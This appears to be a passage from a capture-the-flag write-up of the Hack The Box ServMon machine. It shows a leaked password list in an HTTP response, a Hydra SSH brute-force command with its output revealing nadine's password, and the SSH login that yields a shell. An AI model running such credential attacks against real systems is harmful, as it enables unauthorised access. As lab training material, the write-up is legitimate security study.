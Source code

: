 ```
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

This request returned a list of passwords, which we then tried using `Hydra` to see if any were reused by `Nadine` or `Nathan`. Fortunately, we found a match for `Nadine`.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/servmon]
└─$ hydra -l nadine -P pwds.txt 10.10.10.184 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-13 12:09:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-13 12:09:17
```

With the password `L1k3B1gBut7s@W0rk`, we successfully logged in to the `SSH` service as `Nadine`.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/servmon]
└─$ ssh nadine@10.10.10.184                 
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
nadine@10.10.10.184's password: 

Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```

This gave us a low-privileged shell on the system.

